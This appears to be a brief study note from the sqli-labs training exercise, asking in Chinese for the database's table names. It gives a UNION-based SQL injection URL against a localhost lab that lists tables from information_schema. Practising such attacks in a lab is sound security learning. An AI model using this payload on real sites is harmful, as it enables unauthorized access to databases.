

# 问题： 数据库的表，表名是什么？
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() %23